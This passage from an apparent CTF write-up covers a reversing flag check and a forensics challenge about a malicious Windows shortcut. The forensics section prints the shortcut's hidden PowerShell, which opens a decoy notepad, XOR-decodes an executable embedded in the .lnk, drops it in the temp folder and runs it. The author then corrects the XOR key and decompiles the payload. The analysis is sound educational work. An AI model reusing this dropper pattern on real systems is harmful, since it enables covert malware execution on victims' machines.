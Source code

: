 In the end we will get `n0t_th4t_rusty_4nym0r3`, which is not the flag. We need to `Check` with the string to get the final flag.
![image](https://hackmd.io/_uploads/HydpPQdZee.png)

## Forensics
### Shortcut to Flag
Running lnkinfo we get this.
```!
Name: Type: Text Document
Size: 5.23 KB
Date modified: 01/02/2025 11:23
Arguments: /c start notepad C:\%HOMEPATH%\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.1.0.0\passwords.txt && powershell -windowstyle hidden $lnkpath = Get-ChildItem *.lnk ^| where-object {$_.length -eq 0x000021E4} ^| Select-Object -ExpandProperty Name; $file = gc $lnkpath -Encoding Byte; for($i=0; $i -lt $file.count; $i++) { $file[$i] = $file[$i] -bxor 0x38 }; $path = '%temp%\tmp' + (Get-Random) + '.exe'; sc $path ([byte[]]($file ^| select -Skip 003044)) -Encoding Byte; ^& $path;
Icon Location: %windir%\system32\notepad.exe

--- Extra blocks information ---

>> Environment variable data block
   Environment variables: %windir%\system32\cmd.exe


---------- Processed C:\Users\USER\Downloads\password_chall\password.lnk in 0.04244620 seconds ----------
```

The interesting part is on the arguments, which seems to construct an exe and execute it. Flattening the code we get this.
```ps1
$lnkpath = Get-ChildItem *.lnk | where-object {$_.length -eq 0x000021E4} | Select-Object -ExpandProperty Name;
$file = gc $lnkpath -Encoding Byte; for($i=0; $i -lt $file.count; $i++) { $file[$i] = $file[$i] -bxor 0x38 };
$path = '%tmp%' + 'extracted' + '.exe';
sc $path ([byte[]]($file | select -Skip 003044)) -Encoding Byte;
```
which if we attempt to get the extracted exe, we will find it unreadable (not valid exe, no PE signature).

This took me a few hours to figure out but the **xor key is wrong** (???). Replacing `0x38` with `0x98` will extract the proper exe. We can guess this by XORing known PE signature with the original `bytes[3044:]`.

The exe itself is a .NET application so we can use [dnSpyEx](https://github.com/dnSpyEx/dnSpy) to decompile.
![image](https://hackmd.io/_uploads/H1dVoQu-ee.png)

Then just copy all code and dump to [your friendly neighbour GPT](https://chatgpt.com/share/68288762-20b0-8006-9659-1f92ac24b58f) to solve.
